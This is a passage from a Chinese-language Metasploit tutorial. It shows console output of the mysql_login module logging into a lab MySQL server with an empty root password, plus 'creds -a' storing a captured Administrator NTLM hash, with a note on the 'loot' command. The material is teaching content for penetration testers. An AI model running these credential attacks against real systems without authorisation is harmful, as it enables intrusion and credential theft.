 下面给出一个渗透成功后的例子：

```shell

msf  auxiliary(mysql_login) > run

[*] 172.16.194.172:3306 MYSQL - Found remote MySQL version 5.0.51a
[*] 172.16.194.172:3306 MYSQL - [1/2] - Trying username:'root' with password:''
[*] 172.16.194.172:3306 - SUCCESSFUL LOGIN 'root' : ''
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


msf  auxiliary(mysql_login) > creds 

Credentials
===========

host            port  user  pass  type      active?
----            ----  ----  ----  ----      -------
172.16.194.172  3306  root        password  true

[*] Found 1 credential.
msf  auxiliary(mysql_login) >

```

如果收集到一些口令信息，可以使用 ```creds -a``` 保存它们到数据库中。

```shell
msf > creds -a 172.16.194.134 -p 445 -u Administrator -P 7bf4f254b222bb24aad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::
[*] Time: 2012-06-20 20:31:42 UTC Credential: host=172.16.194.134 port=445 proto=tcp sname= type=password user=Administrator pass=7bf4f254b222bb24aad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e::: active=true

msf > creds

Credentials
===========

host            port  user           pass                                                                  type      active?
----            ----  ----           ----                                                                  ----      -------
172.16.194.134  445   Administrator  7bf4f254b222bb24aad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::  password  true

[*] Found 1 credential.
```

#### LOOT

如果成功渗透了某个系统，一些hash值将存储在数据库中。可以使用 ```loot``` 命令查看这些值。
